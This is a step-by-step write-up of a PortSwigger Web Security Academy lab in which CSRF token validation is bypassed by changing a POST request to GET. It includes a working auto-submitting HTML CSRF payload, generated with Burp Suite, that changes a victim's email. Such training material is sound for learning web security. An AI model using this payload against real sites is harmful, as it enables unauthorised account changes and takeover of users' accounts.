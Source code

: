 [Source](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method)
## Task
The email address change functionality in this lab is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies protections to certain types of requests.
To solve the task, use your exploit server to host an HTML page that uses a CSRF attack to change the email address of the user viewing the page.
You can log in to your own account using the following credentials: `wiener:peter`.
## Solution
Go to the task site

![image](images/20241224164828.png)

Log in as `wiener`

![image](images/20241224164858.png)

Change the user's email and intercept the request via `Burp Suite`

![image](images/20241224165027.png)

We see that the `POST` request contains a `csrf` token. If we change this token, the request will be rejected.

![image](images/20241224165154.png)

Right-click and select `Change request method` to change the request from `POST` to `GET`

![image](images/20241224165323.png)


![image](images/20241224165401.png)

After that, right-click and then `Engagement tools > Generate CSRF PoC`. Change the email in the request and copy the HTML code

![image](images/20241224165548.png)

```HTML
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a66007f0317811990725948005b001d.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="test&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="aYT9ZuxCiXqw41kVk2m0ry0JEUfPz0SQ" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
Next, go to `Exploit Server` and paste that HTML code into the `Body` field.

![image](images/20241224165721.png)

After that, click `Store` and `Deliver exploit to victim`

![image](images/20241224165907.png)
